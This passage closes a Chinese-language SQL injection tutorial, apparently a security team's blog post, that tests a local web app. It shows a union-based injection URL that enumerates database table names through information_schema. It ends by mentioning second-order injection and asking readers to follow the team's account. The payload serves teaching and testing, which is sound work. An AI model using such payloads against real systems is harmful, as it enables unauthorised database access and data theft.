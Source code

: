 这样依次改变limit中的值就好了

再来看看联合查询注入：

[http://localhost/?s=index/index/data&amp;id=3&amp;key=id=-3%20union%20select%201,group_concat(table_name),3,4,5,6,7,8,9,10,11%20from%20information_schema.tables%20where%20table_schema=database()%23](http://localhost/?s=index/index/data&amp;id=3&amp;key=id=-3%2520union%2520select%25201,group_concat(table_name),3,4,5,6,7,8,9,10,11%2520from%2520information_schema.tables%2520where%2520table_schema=database()%2523)

[![](https://p0.ssl.qhimg.com/dm/1024_550_/t01e259bd9d36ec4eb1.png)](https://p0.ssl.qhimg.com/dm/1024_550_/t01e259bd9d36ec4eb1.png)

好了，本篇文章就到此了，SQL注入是个奇妙的东西，出现的类型也不止上述中的注入，还有二次注入

关注本团队公众号，获取最新文章

[![](https://p2.ssl.qhimg.com/t0122cb1e668b998a5d.png)](https://p2.ssl.qhimg.com/t0122cb1e668b998a5d.png)

